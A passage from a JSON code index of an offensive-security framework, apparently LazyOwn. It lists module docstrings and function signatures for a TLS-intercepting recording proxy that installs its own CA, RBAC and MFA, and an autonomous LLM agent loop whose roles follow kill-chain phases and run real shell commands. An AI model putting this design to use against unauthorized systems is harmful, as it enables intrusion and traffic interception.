system trust store.\n\nThe anchor is only written when the CA is missing or stale; sudo is\ninvoked then and prompts on the operator terminal. Non-interactive\ncallers (MCP) fail soft with a reason instead of hanging.\n\nArgs:\n    ca_path: CA certificate PEM path.\n    runner: Injection point for privileged execution (tests).\n\nReturns:\n    Dict with installed flag, anchor path and reason; never raises.", "kind": "function", "line": 404, "name": "install_ca_trust", "signature": "def install_ca_trust(ca_path, runner)"}, {"doc": "On-disk CA plus cached per-host leaf certificates for MITM.", "kind": "class", "line": 455, "name": "CertificateAuthority", "signature": "class CertificateAuthority"}, {"doc": "Return a naive UTC datetime for x509 builders.", "kind": "function", "line": 589, "name": "_utc", "signature": "def _utc(timestamp)"}, {"doc": "Return the SHA-256 hasher used for certificate signatures.", "kind": "function", "line": 596, "name": "_sha256", "signature": "def _sha256()"}, {"doc": "Build the ThreadingHTTPServer subclass with recorder attachments.", "kind": "function", "line": 603, "name": "_server_class", "signature": "def _server_class()"}, {"doc": "Owns the single shared recorder proxy instance.", "kind": "class", "line": 635, "name": "ProxyController", "signature": "class ProxyController"}, {"doc": "Build the request handler class bound to the recorder server.", "kind": "function", "line": 743, "name": "_make_handler", "signature": "def _make_handler()"}, {"doc": "Return the process-wide recorder proxy controller.", "kind": "function", "line": 1151, "name": "get_proxy", "signature": "def get_proxy()"}, {"doc": "Build the environment overrides that route tools through the proxy.", "kind": "function", "line": 1160, "name": "env_for_ca", "signature": "def env_for_ca(ca_path, host, port)"}, {"doc": "Apply proxy env vars, returning the previous values for restore.", "kind": "function", "line": 1176, "name": "apply_env", "signature": "def apply_env(ca_path, host, port)"}, {"doc": "Restore environment values captured by :func:`apply_env`.", "kind": "function", "line": 1183, "name": "restore_env", "signature": "def restore_env(previous)"}, {"doc": "Load or create the CA under ``pki_dir``.", "kind": "method", "line": 458, "name": "__init__", "signature": "def __init__(self, pki_dir)"}, {"doc": "Create the CA key/cert once and load them into memory.", "kind": "method", "line": 470, "name": "_ensure_ca", "signature": "def _ensure_ca(self)"}, {"doc": "Generate and persist one leaf certificate for ``host``.", "kind": "method", "line": 525, "name": "_write_leaf", "signature": "def _write_leaf(self, host, cert_path, key_path)"}, {"doc": "Return the server TLS context for one host, generating on miss.", "kind": "method", "line": 568, "name": "context_for", "signature": "def context_for(self, host)"}, {"kind": "class", "line": 607, "name": "RecorderServer", "signature": "class RecorderServer(ThreadingHTTPServer)"}, {"doc": "Prepare state; nothing binds until :meth:`start`.", "kind": "method", "line": 638, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Bind the recorder proxy; idempotent while already running.\n\nArgs:\n    host: Bind address.\n    port: Bind port (0 picks a free one).\n    task_id: Task tag stored with each exchange.\n    traffic_dir: Recorder directory override.\n    upstream: Optional ``[user:pass@]host:port`` proxy to chain.\n\nReturns:\n    Proxy status dict.", "kind": "method", "line": 651, "name": "start", "signature": "def start(self, host, port, task_id, traffic_dir, upstream)"}, {"doc": "Shut the proxy down; safe when it was never started.", "kind": "method", "line": 696, "name": "stop", "signature": "def stop(self)"}, {"doc": "Report running state, address, CA path and exchange count.", "kind": "method", "line": 712, "name": "status", "signature": "def status(self)"}, {"doc": "Return the live recorder for ingestion, or None when stopped.", "kind": "method", "line": 734, "name": "recorder", "signature": "def recorder(self)"}, {"doc": "Return the CA certificate path for trust-store wiring.", "kind": "method", "line": 738, "name": "ca_path", "signature": "def ca_path(self)"}, {"doc": "Forwards and records HTTP and MITM'd HTTPS exchanges.", "kind": "class", "line": 747, "name": "ProxyHandler", "signature": "class ProxyHandler(BaseHTTPRequestHandler)"}, {"kind": "method", "line": 611, "name": "__init__", "signature": "def __init__(self, address, handler)"}, {"doc": "Silence client-side connection noise instead of tracebacks.\n\nA browsing target that drops the connection while the proxy\nwrites a 502 must not dump a BrokenPipeError traceback per\nrequest; real server faults still go to the default handler.", "kind": "method", "line": 618, "name": "handle_error", "signature": "def handle_error(self, request, client_address)"}, {"doc": "Silence per-request logging; the recorder is the audit trail.", "kind": "method", "line": 753, "name": "log_message", "signature": "def log_message(self, fmt)"}, {"doc": "Terminate TLS for a CONNECT tunnel and record inner requests.", "kind": "method", "line": 757, "name": "do_CONNECT", "signature": "def do_CONNECT(self)"}, {"doc": "Send an HTTP error; a gone client is never an exception.", "kind": "method", "line": 802, "name": "_safe_send_error", "signature": "def _safe_send_error(self, code, message)"}, {"doc": "Forward every plain HTTP method through one path.", "kind": "method", "line": 809, "name": "do_GET", "signature": "def do_GET(self)"}, {"doc": "Forward an absolute-URI or origin-form request and record it.", "kind": "method", "line": 820, "name": "_forward_plain", "signature": "def _forward_plain(self)"}, {"doc": "Send one request upstream (direct or chained); return response.", "kind": "method", "line": 894, "name": "_relay", "signature": "def _relay(self, scheme, host, port, path, url, headers, body)"}, {"doc": "Open a raw upstream connection, chaining through the proxy.", "kind": "method", "line": 973, "name": "_open_target", "signature": "def _open_target(self, scheme, host, port)"}, {"doc": "Wrap a socket in TLS for https targets with verification.", "kind": "method", "line": 994, "name": "_maybe_tls", "signature": "def _maybe_tls(sock, scheme, host)"}, {"doc": "Read bytes until the HTTP header terminator.", "kind": "method", "line": 1014, "name": "_read_headers_from", "signature": "def _read_headers_from(sock, limit)"}, {"doc": "Pass a WebSocket upgrade through, recording the handshake.", "kind": "method", "line": 1024, "name": "_handle_websocket", "signature": "def _handle_websocket(self, scheme, host, port, path, url, req_headers)"}, {"doc": "Persist one exchange; recorder failures never break proxying.", "kind": "method", "line": 1109, "name": "_record", "signature": "def _record(self, scheme, host, port, url, status, req_headers, resp_headers, req_body, resp_body, content_type, error)"}]}, {"doc": "modules/lazy_rbac.py ==================== Role-Based Access Control, Multi-Factor Authentication, and Multi-Tenancy for the LazyOwn RedTeam Framework.  Provides: - RBAC: admin, operator, viewer, auditor roles with permission enforcement - MFA: TOTP-based multi-factor auth (self-hosted, pyotp, no external APIs) - Multi-tenancy: payload profiles + session isolation per engagement - Decorators: @require_role, @require_permission for Flask routes - CLI integration: command-level permission checks  Architecture ------------ - Roles are defined as enums with permission bitmasks - Users stored in users.json with role, mfa_secret, mfa_enabled fields - Tenancy managed via payloads/ directory with named profiles - Zero cost: pyotp is already a dependency, no external services needed", "id": "modules/lazy_rbac.py", "kind": "module", "label": "lazy_rbac.py", "language": "py", "sha256": "eab3afb2b337fe0d", "symbol_count": 86, "symbols": [{"kind": "class", "line": 55, "name": "Role", "signature": "class Role(Enum)"}, {"kind": "class", "line": 66, "name": "Permission", "signature": "class Permission(Enum)"}, {"doc": "Raised when users.json exists but cannot be read (permissions, etc.).\n\nCallers must never treat this condition as an empty store; overwriting\nan existing operator database based on a read failure would destroy it.", "kind": "class", "line": 115, "name": "_UsersFileUnreadable", "signature": "class _UsersFileUnreadable(Exception)"}, {"kind": "class", "line": 124, "name": "RBACUser", "signature": "class RBACUser"}, {"doc": "Persistence layer for RBAC users.", "kind": "class", "line": 210, "name": "RBACStore", "signature": "class RBACStore"}, {"kind": "function", "line": 356, "name": "_generate_recovery_codes", "signature": "def _generate_recovery_codes(count)"}, {"kind": "class", "line": 368, "name": "TenantConfig", "signature": "class TenantConfig"}, {"doc": "Multi-tenancy engine: payload profiles + session isolation.", "kind": "class", "line": 394, "name": "TenantManager", "signature": "class TenantManager"}, {"kind": "function", "line": 514, "name": "_slugify", "signature": "def _slugify(name)"}, {"kind": "function", "line": 523, "name": "init_rbac_store", "signature": "def init_rbac_store(users_path)"}, {"kind": "function", "line": 527, "name": "init_tenant_manager", "signature": "def init_tenant_manager(payloads_dir, config_path, default_payload)"}, {"doc": "Flask decorator: require one of the given roles. Must be used WITH @login_required.", "kind": "function", "line": 539, "name": "require_role", "signature": "def require_role()"}, {"doc": "Flask decorator: require specific permissions.", "kind": "function", "line": 565, "name": "require_permission", "signature": "def require_permission()"}, {"doc": "Decorator that enforces MFA before accessing protected routes.", "kind": "function", "line": 596, "name": "require_mfa", "signature": "def require_mfa(f)"}, {"doc": "Extract RBACUser from Flask-Login current_user.", "kind": "function", "line": 619, "name": "_get_rbac_user", "signature": "def _get_rbac_user(flask_user)"}, {"kind": "function", "line": 632, "name": "_get_rbac_store", "signature": "def _get_rbac_store()"}, {"kind": "function", "line": 639, "name": "get_rbac_store", "signature": "def get_rbac_store()"}, {"kind": "function", "line": 643, "name": "set_rbac_store", "signature": "def set_rbac_store(store)"}, {"kind": "function", "line": 648, "name": "get_tenant_manager", "signature": "def get_tenant_manager()"}, {"kind": "function", "line": 655, "name": "set_tenant_manager", "signature": "def set_tenant_manager(tm)"}, {"doc": "Check if a CLI user has the given permission.", "kind": "function", "line": 660, "name": "check_cli_permission", "signature": "def check_cli_permission(username, permission)"}, {"kind": "function", "line": 672, "name": "get_user_role", "signature": "def get_user_role(username)"}, {"doc": "Generate a QR code data URI for MFA setup (local, no external API).\n\nUses the /mfa/qr/<username> endpoint which generates the QR code\nserver-side as an SVG image. Zero external dependencies.", "kind": "function", "line": 680, "name": "generate_mfa_qr_url", "signature": "def generate_mfa_qr_url(secret, username)"}, {"doc": "Generate an SVG QR code image from text data.\n\nPure Python implementation. Automatically selects the appropriate\nQR version based on data length. Zero external dependencies.", "kind": "function", "line": 689, "name": "generate_qr_svg", "signature": "def generate_qr_svg(data)"}, {"kind": "function", "line": 744, "name": "_qr_choose_version", "signature": "def _qr_choose_version(data)"}, {"kind": "function", "line": 752, "name": "_qr_ec_codewords", "signature": "def _qr_ec_codewords(version)"}, {"kind": "function", "line": 757, "name": "_qr_encode_alphanumeric", "signature": "def _qr_encode_alphanumeric(data, version)"}, {"kind": "function", "line": 812, "name": "_qr_data_bits_for_version", "signature": "def _qr_data_bits_for_version(version)"}, {"kind": "function", "line": 823, "name": "_qr_blank_matrix", "signature": "def _qr_blank_matrix(version)"}, {"kind": "function", "line": 832, "name": "_qr_place_dark_module", "signature": "def _qr_place_dark_module(matrix, size, version)"}, {"kind": "function", "line": 836, "name": "_qr_add_format_info", "signature": "def _qr_add_format_info(modules, size, ecl_bits, mask)"}, {"kind": "function", "line": 860, "name": "_qr_svg_error", "signature": "def _qr_svg_error(msg)"}, {"kind": "function", "line": 869, "name": "_qr_place_finders", "signature": "def _qr_place_finders(matrix, size)"}, {"kind": "function", "line": 878, "name": "_qr_place_timing", "signature": "def _qr_place_timing(matrix, size)"}, {"kind": "function", "line": 884, "name": "_qr_data_bits_positions", "signature": "def _qr_data_bits_positions(matrix, size)"}, {"kind": "function", "line": 903, "name": "_bits_to_bytes", "signature": "def _bits_to_bytes(bits, data_bits)"}, {"kind": "function", "line": 914, "name": "_reed_solomon_encode", "signature": "def _reed_solomon_encode(data, ec_words)"}, {"kind": "function", "line": 950, "name": "_qr_best_mask", "signature": "def _qr_best_mask(modules, size)"}, {"kind": "function", "line": 963, "name": "_qr_apply_mask", "signature": "def _qr_apply_mask(modules, size, mask)"}, {"kind": "function", "line": 996, "name": "_qr_penalty", "signature": "def _qr_penalty(modules, size)"}, {"kind": "function", "line": 1058, "name": "_qr_render_svg", "signature": "def _qr_render_svg(modules, size, modules_per_pixel)"}, {"kind": "method", "line": 62, "name": "valid_roles", "signature": "def valid_roles(cls)"}, {"kind": "method", "line": 136, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 140, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 164, "name": "get_role", "signature": "def get_role(self)"}, {"kind": "method", "line": 170, "name": "has_permission", "signature": "def has_permission(self, permission)"}, {"doc": "Check if this user can assign/manage the given role.", "kind": "method", "line": 174, "name": "can_manage_role", "signature": "def can_manage_role(self, target_role)"}, {"kind": "method", "line": 182, "name": "get_mfa_provisioning_uri", "signature": "def get_mfa_provisioning_uri(self)"}, {"kind": "method", "line": 187, "name": "verify_totp", "signature": "def verify_totp(self, token)"}, {"kind": "method", "line": 192, "name": "verify_recovery_code", "signature": "def verify_recovery_code(self, code)"}, {"kind": "method", "line": 200, "name": "consume_recovery_code", "signature": "def consume_recovery_code(self, code)"}, {"kind": "method", "line": 213, "name": "__init__", "signature": "def __init__(self, users_path)"}, {"kind": "method", "line": 217, "name": "_read_users", "signature": "def _read_users(self)"}, {"kind": "method", "line": 232, "name": "_write_users", "signature": "def _write_users(self, users)"}, {"kind": "method", "line": 245, "name": "load_all", "signature": "def load_all(self)"}, {"kind": "method", "line": 249, "name": "find_by_id", "signature": "def find_by_id(self, user_id)"}, {"kind": "method", "line": 255, "name": "find_by_username", "signature": "def find_by_username(self, username)"}, {"kind": "method", "line": 261, "name": "save", "signature": "def save(self, user)"}, {"kind": "method", "line": 274, "name": "create_user", "signature": "def create_user(self, username, password_hash, role, tenant_id)"}, {"kind": "method", "line": 295, "name": "delete_user", "signature": "def delete_user(self, user_id)"}, {"kind": "method", "line": 304, "name": "update_role", "signature": "def update_role(self, user_id, new_role)"}, {"kind": "method", "line": 314, "name": "enable_mfa", "signature": "def enable_mfa(self, user_id)"}, {"kind": "method", "line": 324, "name": "disable_mfa", "signature": "def disable_mfa(self, user_id)"}, {"kind": "method", "line": 334, "name": "consume_recovery_code", "signature": "def consume_recovery_code(self, user_id, code)"}, {"doc": "Ensure at least one admin exists, creating one if needed.", "kind": "method", "line": 343, "name": "ensure_admin", "signature": "def ensure_admin(self, username, password_hash)"}, {"kind": "method", "line": 377, "name": "from_payload", "signature": "def from_payload(cls, tenant_id, name, payload_path)"}, {"kind": "method", "line": 386, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 390, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 397, "name": "__init__", "signature": "def __init__(self, payloads_dir, config_path, default_payload)"}, {"kind": "method", "line": 410, "name": "_load_config", "signature": "def _load_config(self)"}, {"kind": "method", "line": 421, "name": "_save_config", "signature": "def _save_config(self)"}, {"kind": "method", "line": 431, "name": "list_tenants", "signature": "def list_tenants(self)"}, {"kind": "method", "line": 434, "name": "get_active", "signature": "def get_active(self)"}, {"kind": "method", "line": 439, "name": "get_active_payload_path", "signature": "def get_active_payload_path(self)"}, {"kind": "method", "line": 445, "name": "get_active_sessions_dir", "signature": "def get_active_sessions_dir(self)"}, {"kind": "method", "line": 451, "name": "get_payload_for_tenant", "signature": "def get_payload_for_tenant(self, tenant_id)"}, {"kind": "method", "line": 457, "name": "create_tenant", "signature": "def create_tenant(self, name, base_payload)"}, {"kind": "method", "line": 486, "name": "switch_tenant", "signature": "def switch_tenant(self, tenant_id)"}, {"kind": "method", "line": 495, "name": "delete_tenant", "signature": "def delete_tenant(self, tenant_id)"}, {"kind": "method", "line": 504, "name": "ensure_default_tenant", "signature": "def ensure_default_tenant(self)"}, {"kind": "function", "line": 542, "name": "decorator", "signature": "def decorator(f)"}, {"kind": "function", "line": 568, "name": "decorator", "signature": "def decorator(f)"}, {"kind": "function", "line": 600, "name": "decorated", "signature": "def decorated()"}, {"kind": "function", "line": 927, "name": "gf_mul", "signature": "def gf_mul(a, b)"}, {"kind": "function", "line": 544, "name": "decorated", "signature": "def decorated()"}, {"kind": "function", "line": 570, "name": "decorated", "signature": "def decorated()"}]}, {"doc": "Lazy specialist roles for the autonomous loop.  Ports the useful half of the multi-agent pattern (dedicated planning, execution, memory, review and repair perspectives) with Lazy branding and Lazy execution semantics: roles are prompt perspectives over the existing ``LlmPool``, not separate services. Workers keep executing real Lazy shell commands through the Guard; a role only shapes what the model proposes.  Stdlib only.", "id": "modules/lazy_roles.py", "kind": "module", "label": "lazy_roles.py", "language": "py", "sha256": "d064af25f1b68795", "symbol_count": 4, "symbols": [{"doc": "Return every Lazy role descriptor.\n\nReturns:\n    List of dicts with name, lane, phases and prompt.", "kind": "function", "line": 100, "name": "list_roles", "signature": "def list_roles()"}, {"doc": "Build the system prompt for one role.\n\nArgs:\n    role: Role name from :data:`LAZY_ROLES`.\n    goal: Current task goal prepended as objective.\n    context: Optional bounded context appended after the role brief.\n\nReturns:\n    Full prompt text.\n\nRaises:\n    KeyError: Unknown role.", "kind": "function", "line": 109, "name": "role_prompt", "signature": "def role_prompt(role, goal, context)"}, {"doc": "Return role names serving one kill-chain phase.\n\nArgs:\n    phase: Kill-chain phase.\n\nReturns:\n    Role names in definition order.", "kind": "function", "line": 134, "name": "roles_for_phase", "signature": "def roles_for_phase(phase)"}, {"doc": "Probe every pool member with role prompts, like provider conformance.\n\nEach member answers the same fixed probe under each role perspective.\nResults persist to ``sessions/lazy/llm_conformance.json`` with a\nfastest-healthy affinity map (role -> member) the planner can prefer.\n\nArgs:\n    role: Single role to probe, or all roles when empty.\n\nReturns:\n    Summary with per-member results and affinity. Never raises.", "kind": "function", "line": 154, "name": "conformance", "signature": "def conformance(role)"}]}, {"doc": "Single execution path for ``lazy_loop`` and ``auto_loop``.  Both commands are the same engine by contract; this module owns the one runner so their behavior cannot drift again. Command sets only parse arguments into a :class:`LoopRunConfig` — everything operational lives here: terminal safety, autonomous prompt suppression, live worker streaming, the Rich milestone panel, cancellation and the final summary.", "id": "modules/lazy_runner.py", "kind": "module", "label": "lazy_runner.py", "language": "py", "sha256": "39213ea9a158b09f", "symbol_count": 31, "symbols": [{"doc": "stdout proxy: main thread keeps the real stream, workers spool.\n\nA plain ``redirect_stdout`` is process-global: a cancelled\norchestrator thread that outlives the command keeps ``sys.stdout``\npointed at an abandoned queue, leaving the shell apparently hung.\nThis router only captures non-main threads, so restoring the real\nstream from the main thread always leaves a working shell.", "kind": "class", "line": 41, "name": "ThreadStdoutRouter", "signature": "class ThreadStdoutRouter(TextIOBase)"}, {"doc": "Everything one loop invocation needs, parsed by the command sets.", "kind": "class", "line": 90, "name": "LoopRunConfig", "signature": "class LoopRunConfig"}, {"doc": "Parse an integer flag value, falling back to the default.", "kind": "function", "line": 121, "name": "_to_int", "signature": "def _to_int(raw, default)"}, {"doc": "Parse a float flag value, falling back to the default.", "kind": "function", "line": 129, "name": "_to_float", "signature": "def _to_float(raw, default)"}, {"doc": "Parse one loop command line into a :class:`LoopRunConfig`.\n\nShared by ``lazy_loop`` and ``auto_loop`` so both accept the exact\nsame flags and defaults.\n\nArgs:\n    line: Raw command line after the verb.\n\nReturns:\n    Parsed configuration.\n\nRaises:\n    ValueError: Empty line, unknown flag value or unbalanced quotes.", "kind": "function", "line": 137, "name": "parse_loop_line", "signature": "def parse_loop_line(line)"}, {"doc": "Build the worker executor: shell verbs, custom tools, safe bash.\n\nEvery branch is stdin-detached: shell verbs cannot prompt (input is\nsuppressed by the autonomous context), custom tools run through the\nstreaming runner, and raw bash goes through ``execute_streaming``\nwith ``stdin=DEVNULL`` and its own process group so Ctrl+C and time\nlimits always kill the child, never the operator's terminal.\n\nWhen ``sandbox_task_id`` is set, routable shell verbs run inside the\nper-task Docker container (``modules.lazy_sandbox``) instead of the\noperator host; custom tools and raw bash stay local.", "kind": "function", "line": 225, "name": "build_executor", "signature": "def build_executor(shell, config, stream, cancelled, sandbox_task_id, sandbox_image)"}, {"doc": "Cancel streaming children, abort the runtime and pause the task.", "kind": "function", "line": 298, "name": "_abort_run", "signature": "def _abort_run(engine, task_id, reason)"}, {"doc": "Bind shell and apply payload-driven tuning to the engine.", "kind": "function", "line": 317, "name": "_prepare_engine", "signature": "def _prepare_engine(engine, shell, config, params)"}, {"doc": "Start the recording proxy when payload asks for it (fail-soft).", "kind": "function", "line": 331, "name": "_start_proxy", "signature": "def _start_proxy(engine, params)"}, {"doc": "Print the final outcome of one loop run.", "kind": "function", "line": 356, "name": "report_result", "signature": "def report_result(result)"}, {"doc": "Ingest an existing nmap XML through ``auto_populate`` before round 1.", "kind": "function", "line": 380, "name": "_bootstrap", "signature": "def _bootstrap(scan_target, executor)"}, {"doc": "Run orchestration behind the Rich milestone panel.\n\nBootstrap (``auto_populate`` over an existing nmap XML) runs inside\nthe same streamed thread as the orchestrator, so its transcript is\nvisible in the panel instead of disappearing behind the redirect.", "kind": "function", "line": 394, "name": "_run_with_progress", "signature": "def _run_with_progress(engine, config)"}, {"doc": "Best-effort graph overview for partial results.", "kind": "function", "line": 500, "name": "_overview", "signature": "def _overview(task_id)"}, {"doc": "One compact English line per activity record for the operator.\n\nTool results are skipped because the raw output is already streamed\nby the executor; everything else (claims, planner wakes, LLM calls\nand retries, guard decisions, approvals, enrich, retest, compaction,\ntraffic, triggers) is surfaced so any runaway loop is visible.", "kind": "function", "line": 510, "name": "_format_activity", "signature": "def _format_activity(record)"}, {"doc": "Dump all thread stacks to stderr so a stuck loop is identifiable.", "kind": "function", "line": 524, "name": "_dump_thread_stacks", "signature": "def _dump_thread_stacks()"}, {"doc": "Drain live output into the panel until the orchestrator finishes.\n\nTwo streams feed the operator: the executor transcript (tool calls\nand raw output) and the task activity log (every engine step). A\nstall watchdog warns and dumps thread stacks when neither moves.", "kind": "function", "line": 539, "name": "_poll_progress", "signature": "def _poll_progress(engine, config, progress, transcript, worker)"}, {"doc": "Return a stream writer bound to the *real* stdout.\n\nShell verbs run with ``stdout`` redirected into their capture\nbuffer; observers that print through ``sys.stdout`` would write into\nthat buffer instead of the terminal. ``sys.__stdout__`` bypasses the\nredirect, so live output stays visible without feedback loops.", "kind": "function", "line": 634, "name": "_terminal_stream", "signature": "def _terminal_stream()"}, {"doc": "Run orchestration without the live panel (plain transcript).", "kind": "function", "line": 656, "name": "_run_plain", "signature": "def _run_plain(engine, config)"}, {"doc": "Execute one complete loop run and return its summary.\n\nArgs:\n    shell: Live LazyOwn shell (workers route verbs through it).\n    params: Payload mapping (proxy/concurrency/verb timeout).\n    config: Parsed command invocation.\n\nReturns:\n    Orchestrator summary with ``cancelled``/``error`` keys added.", "kind": "function", "line": 691, "name": "run_loop", "signature": "def run_loop(shell, params, config)"}, {"doc": "Return True when a real terminal is attached to this process.", "kind": "function", "line": 773, "name": "_tty_available", "signature": "def _tty_available()"}, {"doc": "Bind the real stream and the worker spool queue.", "kind": "method", "line": 51, "name": "__init__", "signature": "def __init__(self, main_stream, spool)"}, {"doc": "Route main-thread writes to the terminal, worker writes to spool.", "kind": "method", "line": 57, "name": "write", "signature": "def write(self, data)"}, {"doc": "Flush the real stream; the spool needs no flushing.", "kind": "method", "line": 68, "name": "flush", "signature": "def flush(self)"}, {"doc": "Report the real stream encoding.", "kind": "method", "line": 76, "name": "encoding", "signature": "def encoding(self)"}, {"doc": "Report whether the real stream is a terminal.", "kind": "method", "line": 80, "name": "isatty", "signature": "def isatty(self)"}, {"doc": "Clamp numeric knobs to the supported operating range.", "kind": "method", "line": 107, "name": "clamped", "signature": "def clamped(self)"}, {"kind": "function", "line": 242, "name": "_resolve_alias", "signature": "def _resolve_alias(command)"}, {"kind": "function", "line": 250, "name": "_executor", "signature": "def _executor(command)"}, {"kind": "function", "line": 409, "name": "stream", "signature": "def stream(text)"}, {"kind": "function", "line": 446, "name": "_run", "signature": "def _run()"}, {"kind": "function", "line": 646, "name": "_write", "signature": "def _write(text)"}]}, {"doc": "Per-task Docker sandbox for the Lazy autonomous loop.  Ports the per-flow container idea with Lazy semantics: one container per loop task, built from the existing ``Dockerfile.sandbox`` image (``lazyown-sandbox`` by default, the same tag ``./run`` uses), with the repository mounted at ``/app`` exactly like the documented sandbox usage. Workers keep issuing Lazy shell verbs; the sandbox executor pipes each verb into the in-container shell over stdin (``<verb>`` + ``exit``) and captures the cleaned output, so Guard, scope, traffic and intel see the same transcript shape as host execution.  Safety profile: no privileged flag, all capabilities dropped except ``NET_RAW`` (nmap needs raw sockets), memory/CPU caps, operator-owned network selection. The image is never auto-built inside a round (a build takes minutes and would wedge the loop); a missing image returns a capability-style error the worker records as a fact.  Stdlib only. All Docker interaction goes through the ``docker`` CLI so no SDK dependency is needed.", "id": "modules/lazy_sandbox.py", "kind": "module", "label": "lazy_sandbox.py", "language": "py", "sha256": "bcd4f8f332fd9ee9", "symbol_count": 12, "symbols": [{"doc": "Read one payload value, falling back to default on any error.", "kind": "function", "line": 41, "name": "_payload_value", "signature": "def _payload_value(key, default)"}, {"doc": "Resolve the sandbox image name.\n\nArgs:\n    configured: Explicit image from the ``--sandbox`` flag.\n\nReturns:\n    Explicit image, payload ``sandbox_image`` override, or default.", "kind": "function", "line": 52, "name": "image_name", "signature": "def image_name(configured)"}, {"doc": "Return the deterministic container name for one task.", "kind": "function", "line": 67, "name": "container_name", "signature": "def container_name(task_id)"}, {"doc": "Return True when the docker CLI is on PATH.", "kind": "function", "line": 73, "name": "docker_available", "signature": "def docker_available()"}, {"doc": "Return True when the sandbox image exists locally.", "kind": "function", "line": 78, "name": "image_available", "signature": "def image_available(image)"}, {"doc": "Return the container name when it is up, else empty string.", "kind": "function", "line": 94, "name": "container_running", "signature": "def container_running(task_id)"}, {"doc": "Start the per-task container when needed, return its name or error.\n\nArgs:\n    task_id: Loop task identifier.\n    image: Explicit image override.\n\nReturns:\n    Container name on success, ``execution failed: ...`` otherwise.", "kind": "function", "line": 112, "name": "ensure_container", "signature": "def ensure_container(task_id, image)"}, {"doc": "Run one Lazy shell verb inside the task container.\n\nArgs:\n    task_id: Loop task identifier.\n    command: Lazy shell verb line.\n    timeout_sec: Hard timeout for the exec.\n    image: Explicit image override.\n\nReturns:\n    Cleaned shell output, timeout notice with partial tail, or error.", "kind": "function", "line": 180, "name": "exec_command", "signature": "def exec_command(task_id, command, timeout_sec, image)"}, {"doc": "Stop and remove the task container. Never raises.", "kind": "function", "line": 214, "name": "remove_container", "signature": "def remove_container(task_id)"}, {"doc": "Describe sandbox readiness and containers.\n\nArgs:\n    task_id: Optional task to inspect.\n\nReturns:\n    Readiness dict with docker, image and container state.", "kind": "function", "line": 223, "name": "status", "signature": "def status(task_id)"}, {"doc": "Build a worker executor routing shell verbs into the sandbox.\n\nArgs:\n    task_id: Loop task identifier bound to one container.\n    image: Explicit image override from ``--sandbox``.\n\nReturns:\n    Executor callable, or None when Docker is unusable (caller keeps\n    host execution and the worker records the gap as usual).", "kind": "function", "line": 251, "name": "executor_for", "signature": "def executor_for(task_id, image)"}, {"kind": "function", "line": 265, "name": "_sandbox_executor", "signature": "def _sandbox_executor(command)"}]}, {"doc": "Mirror LazyOwn skills for Hermes discovery.  Hermes loads skills from ``~/.hermes/skills/<group>/<name>/SKILL.md`` while opencode reads ``skills/<name>/SKILL.md`` in this repo, so the two runtimes never share one directory. This module derives thin Hermes-compatible mirrors under ``skills/<name>/hermes/SKILL.md`` from the repo frontmatter (name, description, version, author, license) and registers the parent ``skills/`` tree in the operator's ``~/.hermes/config.yaml`` ``skills.external_dirs`` — the same pattern opencode uses with its ``skills.paths`` list.  Mirrors only re-target the frontmatter; the body stays byte-identical so both agents read the same procedure. Never touches the operator's config without an explicit call; every write backs the file up first.", "id": "modules/lazy_skill_mirror.py", "kind": "module", "label": "lazy_skill_mirror.py", "language": "py", "sha256": "e9361ce08f849084", "symbol_count": 7, "symbols": [{"doc": "Split SKILL.md into frontmatter dict and body.", "kind": "function", "line": 30, "name": "_split_frontmatter", "signature": "def _split_frontmatter(text)"}, {"doc": "Build a Hermes-compatible frontmatter block for one skill.", "kind": "function", "line": 45, "name": "_hermes_frontmatter", "signature": "def _hermes_frontmatter(name, fields)"}, {"doc": "Return repo skill names that ship a SKILL.md.", "kind": "function", "line": 67, "name": "available_skills", "signature": "def available_skills()"}, {"doc": "Write the Hermes mirror of one skill.\n\nArgs:\n    name: Repo skill directory name.\n\nReturns:\n    Summary with path and changed flag; never raises.", "kind": "function", "line": 78, "name": "mirror_skill", "signature": "def mirror_skill(name)"}, {"doc": "Mirror every repo skill; return per-skill summaries.", "kind": "function", "line": 106, "name": "mirror_all", "signature": "def mirror_all()"}, {"doc": "Return the operator hermes config path.", "kind": "function", "line": 112, "name": "_hermes_config_path", "signature": "def _hermes_config_path()"}, {"doc": "Register the repo skills tree in the hermes config.\n\nAppends the ``skills/<name>/hermes`` parents to\n``skills.external_dirs`` (deduplicated) with a timestamped backup.\nIdempotent: a registered tree reports unchanged without writing.\n\nReturns:\n    Summary with changed flag and backup path; never raises.", "kind": "function", "line": 117, "name": "register_external_dirs", "signature": "def register_external_dirs()"}]}, {"doc": "Skill context injection for planner/worker prompts.  Scans the repository ``skills/`` tree for SKILL.md documents (and loose markdown guides), matches them against the task goal with keyword scoring and feeds bounded excerpts into :func:`build_prompt_context`, so the autonomous LLM agents inherit operator playbooks without a separate tool call.  Selection contract: ``lazy_skill inject <name> --task T`` pins a skill in the task record; auto-matching stays on unless ``lazy_skill auto off``.", "id": "modules/lazy_skills.py", "kind": "module", "label": "lazy_skills.py", "language": "py", "sha256": "cfd2b8d6f6c55cf4", "symbol_count": 7, "symbols": [{"doc": "Split YAML frontmatter from the body, tolerating its absence.", "kind": "function", "line": 28, "name": "_frontmatter", "signature": "def _frontmatter(text)"}, {"doc": "Return skill documents: ``*/SKILL.md`` plus loose ``*.md`` guides.", "kind": "function", "line": 42, "name": "_skill_files", "signature": "def _skill_files()"}, {"doc": "Parse one skill document with an mtime cache.", "kind": "function", "line": 53, "name": "_load", "signature": "def _load(path)"}, {"doc": "Return every parsed skill sorted by name.", "kind": "function", "line": 85, "name": "list_skills", "signature": "def list_skills()"}, {"doc": "Find one skill by exact or case-insensitive name.", "kind": "function", "line": 91, "name": "get_skill", "signature": "def get_skill(name)"}, {"doc": "Rank skills whose keywords appear in the text, best first.", "kind": "function", "line": 102, "name": "match_skills", "signature": "def match_skills(text, limit)"}, {"doc": "Render pinned plus auto-matched skills as one prompt section.\n\nArgs:\n    text: Goal/intent text used for auto matching.\n    explicit: Skill names pinned on the task record.\n    auto: Whether keyword auto-matching runs.\n    budget: Max characters of the rendered section.\n\nReturns:\n    ``Skills: name :: excerpt | ...`` or an empty string.", "kind": "function", "line": 118, "name": "skills_context", "signature": "def skills_context(text, explicit, auto, budget)"}]}, {"doc": "Bounded chain summarizer for the Lazy autonomous loop.  Ports the durable idea behind 